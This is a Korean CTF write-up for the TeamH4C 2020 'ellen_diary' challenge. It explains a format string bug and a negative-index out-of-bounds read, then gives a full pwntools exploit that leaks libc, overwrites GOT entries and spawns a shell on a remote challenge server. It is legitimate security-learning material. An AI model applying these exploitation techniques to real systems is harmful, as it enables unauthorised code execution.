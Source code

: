 # [WriteUp]TeamH4C CTF 2020 - ellen_diary

:black_nib:N1be(sj.dr.nibe@gmail.com)

---

## Analysis

### mitigation

![image](https://user-images.githubusercontent.com/59759771/95596374-4686c700-0a88-11eb-967d-0e0c9e9a479f.png)

<br>

### vulnerability

![image](https://user-images.githubusercontent.com/59759771/95599256-cf533200-0a8b-11eb-8018-191801e683dc.png)

**format string bug**가 발생한다. 포맷 스트링뿐만 아니라 스택에 특정 주소를 넣어서 인자로 전달할 수도 있기 때문에 AAW가 가능하다. PIE가 꺼져 있고 Partial RELRO 환경이기 때문에 **GOT overwrite**가 가능하다.

<br>

![image](https://user-images.githubusercontent.com/59759771/95600705-800e0100-0a8d-11eb-92af-9af8b1277a92.png)

`index`는 signed integer이다. 음수를 넣으면 OOB가 발생해서 GOT에 저장된 값들을 `dest`에 저장할 수 있다. 이 방법으로 libc 함수의 주소를 `dest`에 저장해 놓고, `strcpy()`의 GOT를 `puts()`의 PLT 주소로 덮으면 저 코드는 `puts(dest)`가 되어 **libc leak**을 할 수 있다.

<br>

libc leak에 성공하면 oneshot gadget을 쓸 수 있으니 `exit()`의 GOT를 oneshot gadget으로 덮고 종료하면 쉘을 획득할 수 있을 것이다.

<br>

---

## Exploit

```python
from pwn import *

r = process("./ellen_diary")
# r = remote("112.213.2.13", 40001)

def write_on_stack(format, data):
    r.sendlineafter("> ", "1")
    r.sendafter("write on stack > ", format)
    r.sendlineafter(">> ", data)

def write_on_data(data):
    r.sendlineafter("> ", "2")
    r.sendafter("write on data > ", data)

def make_a_copy(index):
    r.sendlineafter("> ", "3")
    r.sendlineafter("index for copy > ", str(index))

def stop_writing():
    r.sendlineafter("> ", "4")
```

<br>

### GOT overwrite

```python
make_a_copy(-4)
```

![image](https://user-images.githubusercontent.com/59759771/95602504-f9a6ee80-0a8f-11eb-8312-09c151c9672b.png)

`strcpy()`의 GOT를 덮으면 더 이상 사용할 수 없기 때문에 `make_a_copy()`의 `index`에 -4를 넣어서 `stdout`의 값을 `dest`에 미리 저장해 놓는다.

<br>

```python
write_on_stack(b"%7$s".ljust(8, b'\x00') + p64(strcpy_got), p64(puts_plt)[:-2]) # strcpy() -> puts()
```

![image](https://user-images.githubusercontent.com/59759771/95602715-45f22e80-0a90-11eb-9b52-d4bbb862055b.png)

![image](https://user-images.githubusercontent.com/59759771/95602738-4ee30000-0a90-11eb-9682-76a51d5c7087.png)

포맷 스트링이 `"%7$s"`이면 `rsp+0x8`에 있는 값을 매개변수로 받는다. 그러면 `strcpy()`의 GOT를 임의의 문자열로 덮을 수 있다.

<br>

![image](https://user-images.githubusercontent.com/59759771/95602954-9bc6d680-0a90-11eb-88ca-01a32a7aaeec.png)

6바이트만 덮으면 된다. 8바이트를 덮으면 다음 주소에 있는 `puts()`의 GOT의 한 바이트를 침범하게 되어 프로그램이 터지니 주의해야 한다.

<br>

### libc leak

```python
# libc leak
make_a_copy(0)
stdout = u64(r.recvn(6).ljust(8, b'\x00')) # address of stdout
libc = stdout - offset_stdout # libc base
log.info("libc base: " + hex(libc))
oneshot = libc + offset_oneshot # address of oneshot gadget
```

`make_a_copy()`를 실행하면 `index`에 관계없이 `puts(dest)`가 실행되어, 아까 복사해 놓았던 `stdout`의 값이 출력된다.

<br>

### get shell

```python
write_on_stack(b"%7$s".ljust(8, b'\x00') + p64(exit_got), p64(oneshot)) # exit() -> oneshot
stop_writing()
```

`exit()`의 GOT를 oneshot gadget의 주소로 덮고 stop_writing()을 실행하면 `exit()`이 호출되면서 쉘을 획득하게 된다.

<br>

---

## Full exploit

```python
from pwn import *

# r = process("./ellen_diary")
r = remote("112.213.2.13", 40001)

strcpy_got = 0x602018 # GOT address of strcpy()
exit_got = 0x602060 # GOT address of exit()
puts_plt = 0x4006c0 # PLT address of puts()
offset_stdout = 0x3ec760 # offset of stdout from libc base
offset_oneshot = 0x10a45c # offset of oneshot gadget from libc base

def write_on_stack(format, data):
    r.sendlineafter("> ", "1")
    r.sendafter("write on stack > ", format)
    r.sendlineafter(">> ", data)

def write_on_data(data):
    r.sendlineafter("> ", "2")
    r.sendafter("write on data > ", data)

def make_a_copy(index):
    r.sendlineafter("> ", "3")
    r.sendlineafter("index for copy > ", str(index))

def stop_writing():
    r.sendlineafter("> ", "4")

make_a_copy(-4)
write_on_stack(b"%7$s".ljust(8, b'\x00') + p64(strcpy_got), p64(puts_plt)[:-2]) # strcpy() -> puts()

# libc leak
make_a_copy(0)
stdout = u64(r.recvn(6).ljust(8, b'\x00')) # address of stdout
libc = stdout - offset_stdout # libc base
log.info("libc base: " + hex(libc))
oneshot = libc + offset_oneshot # address of oneshot gadget

write_on_stack(b"%7$s".ljust(8, b'\x00') + p64(exit_got), p64(oneshot)) # exit() -> oneshot
stop_writing()

r.interactive()
```

![image](https://user-images.githubusercontent.com/59759771/95603317-0b3cc600-0a91-11eb-95fd-ce8fb0db85eb.png)

